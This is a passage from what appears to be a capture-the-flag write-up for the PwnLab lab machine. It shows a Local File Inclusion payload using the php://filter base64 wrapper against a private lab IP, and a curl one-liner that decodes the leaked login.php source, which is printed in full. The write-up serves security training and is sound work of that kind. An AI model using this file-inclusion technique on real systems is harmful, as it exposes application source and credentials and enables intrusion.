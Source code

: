 After to enumerate for some time I was able to detect a Local File Inclusion, using wrappers it was possible to read the PHP files, since when including the files of the system of conventional form didn't obtain results.

`http://192.168.179.176/?page=php://filter/convert.base64-encode/resource=login`

![](/assets/images/pwnlab/screenshot-2.png)

## Exploitation
### Local File Inclusion

With curl I downloaded the content of the login.php file, we can see that the login form uses prepared queries, reason why SQL Injection wasn't possible.

```console
root@kali:~$ curl -s "http://192.168.179.176/?page=php://filter/convert.base64-encode/resource=login" | sed -n '10p' | grep -oP 'PD[^<]*' | base64 -d | tee login.php
<?php
session_start();
require("config.php");
$mysqli = new mysqli($server, $username, $password, $database);

if (isset($_POST['user']) and isset($_POST['pass']))
{
        $luser = $_POST['user'];
        $lpass = base64_encode($_POST['pass']);

        $stmt = $mysqli->prepare("SELECT * FROM users WHERE user=? AND pass=?");
        $stmt->bind_param('ss', $luser, $lpass);

        $stmt->execute();
        $stmt->store_Result();

        if ($stmt->num_rows == 1)
        {
                $_SESSION['user'] = $luser;
                header('Location: ?page=upload');
        }
        else
        {
                echo "Login failed.";
        }
}
else
{
        ?>
        <form action="" method="POST">
        <label>Username: </label><input id="user" type="test" name="user"><br />
        <label>Password: </label><input id="pass" type="password" name="pass"><br />
        <input type="submit" name="submit" value="Login">
        </form>
        <?php
}
```